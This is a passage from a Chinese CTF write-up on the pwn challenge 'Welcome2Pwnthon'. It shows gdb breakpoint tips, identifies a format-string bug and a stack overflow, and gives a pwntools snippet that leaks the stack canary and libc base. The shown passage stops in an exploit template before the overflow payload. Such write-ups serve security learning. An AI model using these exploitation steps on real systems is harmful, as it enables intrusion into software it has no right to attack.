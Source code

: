 断的时候也有技巧，导入 ida 时发现它有 dbg 信息，可以知道某一行是哪个文件的哪行，而 gdb 会自动处理 offset，这样会方便一些。当然，因为符号表没去掉，所以也可以直接 `func_name+offset`

![image-20231017090646706](https://oss.nova.gal/img/image-20231017090646706.png)

```python
b app.c:2963
# or
b __pyx_f_3app_Welcome2Pwnthon+36
```

调试的方法说完了就直接开看。漏洞点也很明显，一个格式化字符串 + 一个栈溢出

![image-20231017091040667](https://oss.nova.gal/img/image-20231017091040667.png)

但是 Python 不能使用 `%n$` 这样的方法，因此得一个一个写，也就没有什么任意地址写的方法。不过 gdb 一调就发现栈上有可以泄露的 `open64+232` 之类的地址，再加上 canary 一起泄露就完事了。

![image-20231017092014997](https://oss.nova.gal/img/image-20231017092014997.png)

注意这里 Python 用 rsp 来存返回地址，所以虽然是 `%31$p` 但是其实是 `%30$` 就可以

```python title=exp.py
sendline(b'%p.'*0x1e)
resp = recvline(keepends=False).split(b'.')
print(resp)
canary = int(resp[-2], 16)
success(f'>> canary = {hex(canary)}')
libc.address = int(resp[-8], 16) - 0x1147b8
success(f">> libc = {hex(libc.address)}")
```

拿出来之后栈溢出写 system 就行

```python
from pwn import *
from argparse import ArgumentParser
from pathlib import Path
from typing import Optional, Any, Literal

# ------- Config -------
LOG_LEVEL = 'debug'
OS = 'linux'
ARCH = 'amd64'
TERMINAL = ['wt.exe', 'bash', '-c']

ATTACHMENT = './pwn'
RUNARGS = ''
LIBC = './libc.so.6'
HOST = ''
PORT = 0

DEBUG = True
REMOTE = False
GDB = False  # gdb.debug(elf.path, gdbscript=gdbscript)
GDB_SCRIPT = ''

# ------- Config -------
parser = ArgumentParser(description="Pwnable Commandline")
parser.add_argument('ATTACHMENT', nargs='?', default=ATTACHMENT)
parser.add_argument('--libc', '-l', nargs='?', default=LIBC)
parser.add_argument('--no-debug', '-D', action='store_true', default=False, help='Disable debug mode')
parser.add_argument('--remote', '-r', action='store', default="")
parser.add_argument('--host', '-H', action='store', default='')
parser.add_argument('--port', '-p', action='store', default=0)
```